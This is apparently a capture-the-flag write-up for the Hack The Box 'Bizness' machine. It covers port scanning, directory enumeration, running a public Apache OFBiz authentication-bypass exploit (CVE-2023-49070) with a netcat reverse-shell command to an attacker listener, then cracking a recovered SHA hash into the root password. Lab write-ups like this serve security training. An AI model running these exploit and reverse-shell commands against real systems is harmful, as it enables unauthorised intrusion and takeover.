# [Bizness](https://app.hackthebox.com/machines/bizness)

```bash
nmap -p- --min-rate 10000 10.10.11.252 -Pn 
```

![Alt text](img/image.png)

After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443,39229 10.10.11.252
```

![Alt text](img/image-1.png)


From nmap scan, I see that I need to add this ip address into `/etc/hosts` file for resolving purposes, let's add and browse this web application.

![Alt text](img/image-2.png)


Let's do directory enumeration via `dirsearch`.
```bash
dirsearch -u https://bizness.htb -e*
```

![Alt text](img/image-3.png)


Let's browse `/accounting` endpoint.

![Alt text](img/image-4.png)

I see that there is `Apache OFBIZ` framework is used, let's search publicly known CVE for this.


I found [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) whose CVE-id is `CVE-2023-49070`.


Let's use this.
```bash
python3 exploit.py --url https://bizness.htb/accounting/control/main --cmd "nc -c bash 10.10.16.7 1337"
```

![Alt text](img/image-5.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-6.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt

![Alt text](img/image-7.png)


For privilege escalation, I find sensitive file called `AdminUserLoginData.xml` on directory "/opt/ofbiz/framework/resources/templates/".


![Alt text](img/image-8.png)


I just look through files for '/opt/ofbiz/runtime/data/derby/ofbiz/seg0' directory, found SHA hash for file called `c6650.dat`.

![Alt text](img/image-9.png)

I got this hash "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN" from here.


I found a script from internet to crack this hash.

![Alt text](img/image-10.png)


Probably, it is password of `root` user.

root: monkeybizness


root.txt

![Alt text](img/image-11.png)